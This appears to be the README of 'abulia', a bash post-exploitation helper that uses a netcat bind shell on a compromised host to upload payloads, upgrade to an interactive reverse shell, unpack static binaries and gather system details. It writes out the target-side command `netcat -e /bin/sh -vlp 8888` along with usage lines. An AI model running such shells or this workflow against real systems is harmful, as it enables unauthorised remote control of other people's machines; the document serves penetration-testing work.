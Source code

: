 # ![Abulia](https://i.imgur.com/ol7voNf.png)
abulia is a bash-script that aims to assist exploitation of netcat-based
remote code execution.

abulia requires:
- netcat to be installed on both the host and target system; the target system's netcat implementation will need to support the `-e` flag.
- read-write access on the current directory on the remote system
- the target system to be executing `netcat -e /bin/sh -vlp 8888`; this will have to be done by utilising a different exploit. (any port may be used; `8888` is used as an example here.)

## Usage
### Regular Invocation
The simplst way to invoke abulia is:
```bash
./abulia 192.0.2.0 8888
```
abulia will attempt to connect to the given host before:
- copying over `payloads/abuliarc` to `$PWD/.abulia/abuliarc` on the host system over port 8889
- open an additional netcat instance on the host system in order to connect over port 8890
- performs a reverse shell upgrade over the newly established netcat connection; this instance then sources the `abuliarc` on the host system.

### Invoke Payloads
Any additional options on the command line will be interpreted as payloads:
```bash
./abulia 192.0.2.0 8888 whoami binpack/binpack-x86_64 +binmake
```
This will:
- transfer `payloads/whoami` to `$PWD/.abulia/whoami` on the remote system
- transfer `payloads/binpack/binpack-x86_64` to `$PWD/.abulia/binpack-x86_64` on the remote system
- transfer `payloads/binmake` to `$PWD/.abulia/binmake` on the remote system **and then execute it**.
This should provide a pretty clear overview of how payloads work.
*At the moment, abulia only searches for payloads relative to the `payloads/`
directory; this has yet to be fixed.*

**Notice:** abulia uploads payloads in chronological order from left to
right; if payload B depends on payload A, then `./abulia 192.0.2.0 8888 +B A` will produce erroneous results.

abulia uses `dd` and `netcat` for file transmission, and can handle payloads of arbitrary size (including 200MiB+ wordlists).

## Payload Overview
### understand
the `understand` payload shows a fancy header displaying information such as disk usage, `uname`, SSH configuration, etc.

TODO:
- display more useful information such as:
- systemctl output;
- autodetect users and groups on the system;
- autodetect security features such as `hidepid` and non-readable `/var/log` files;

### binmake + binpack
The `binpack` files found in `payloads/binpack/` are `.tar.xz` files
containing precompiled static binaries for x86_64, x86 and ARM architecture
GNU/Linux operating systems. They were stolen from [https://github.com/andrew-d/static-binaries/](andrew-d/static-binaries).

`binmake` depends on one or more of each `binpack-$ARCH` to have been transferred to the target system.
`binmake` will create a new subdirectory `$PWD/.abulia/binpack-$ARCH` before unpacking the statically linked binaries found in the pack.
It will then modify the `$PATH` variable in `$PWD/.abulia/abuliarc`.

## Todo
abulia has several issues that need to be fixed:
- abulia does not yet support other ways of attaining a reverse shell (nmap, lua, irb, etc.)- it currently relies on `python` and `pty`.
- abulia does not yet support other ways of initiating connections other than netcat; no support for `socat` or gnu/awk+network-based shelling.
- abulia produces one or two lines of garbage on the screen when achieving a reverse shell; this has yet to be fixed.
- abulia relies on some ugly hacks and `timing` to keep working; this is ugly and should ideally be fixed.
- exiting the abulia shell renders your terminal garbage, requiring you to close it.

